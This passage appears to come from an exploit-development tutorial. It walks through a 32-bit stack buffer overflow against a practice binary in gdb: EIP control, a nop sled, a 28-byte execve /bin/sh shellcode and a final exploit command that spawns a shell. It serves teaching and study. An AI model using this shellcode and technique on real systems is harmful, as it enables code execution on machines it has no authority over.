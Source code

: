  - now program is hitting breakpoint at ret instruction
 - if we look top of the stack, `42424242` ( hex value of BBBB ) is stored
 - execute next instruction with `ni` , bingo ?
```
Cannot access memory at address 0x42424242
0x42424242 in ?? ()
```
**Exploit sandwich**
 - Ingredients
	 - nop sled :x:
	 - shellcode :x:
	 - pointer into shellcode :x:
 - shellcode :heavy_check_mark:
	 - learning how shellcode work at [here](https://github.com/LunaM00n/LOL-Bin/tree/master/x86_Shellcoding)
	 - using other's shellcodes ( [shell-storm/shellcode database](http://shell-storm.org/shellcode/) )
	 - using shellcoding tools - [shellnoob](https://github.com/reyammer/shellnoob)
	 - let's use this shellcode for now ( [28bytes shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php) )

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
```
 - nop sled :heavy_check_mark:
	 - `\x90` -> nop ( no operation )
	 - we can create more reliable exploit using nop sled
 - pointer into shellcode
	 - shellcode location : we need to find a place to locate shellcode
	 - we can inject shellcode to the stack
	 - `(gdb)run luna $(python -c 'print "\x90"*200+"A"*208+"BBBB"')` -> `esp = 0xffffd458` 
	 - landing to nop sled 

```
(gdb) x/32x $esp-0x150
0xffffd308:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd318:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd328:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd338:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd348:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd358:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd368:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd378:     0x90909090      0x90909090      0x90909090      0x90909090
```
  - we got `0xffffd308` address that pointing to nop sled :heavy_check_mark:
  - `nop(200)+shellcode(28)+padding(180) = 408 bytes`
  - first version of exploit

```
(gdb)run luna $(python -c 'print "\x90"*200+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"+"A"*180+"\x08\xd3\xff\xff"')
```
 - shell spawned in gdb
